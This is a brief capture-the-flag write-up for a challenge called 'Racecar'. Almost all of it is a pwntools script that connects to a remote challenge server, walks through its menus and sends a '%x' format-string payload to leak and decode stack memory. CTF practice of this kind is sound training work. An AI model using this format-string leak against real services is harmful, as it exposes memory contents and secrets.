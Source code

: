 # Racecar

* This challenge contains a simple format string exploit. Further instructions can be found in [my pentest repo](https://git.stefan.works/whx/pentest_tools/src/branch/master/Exploits/Binaries/Format%20String.md)

```python
p = remote('178.62.88.151',31280)

p.recv()
p.sendline(b'whackx')
p.recv()
p.sendline(b'whackx')

print(p.recv())
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
print(p.recv())
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')

print(p.recv())
p.sendline(b'%x ' *100)
print("[+] send payload")

l = p.recvall()
l =l.split(b'm\n')
l = l[-1].split()
res = []
for x in l[::-1]:
    try:
        #print(bytes.fromhex(x.split()[0].decode())[::-1])
        x = bytes.fromhex(x.decode())[::-1]
        res.append(x.decode())
    except:
        pass
print(''.join(res[::-1]))
p.close()
```

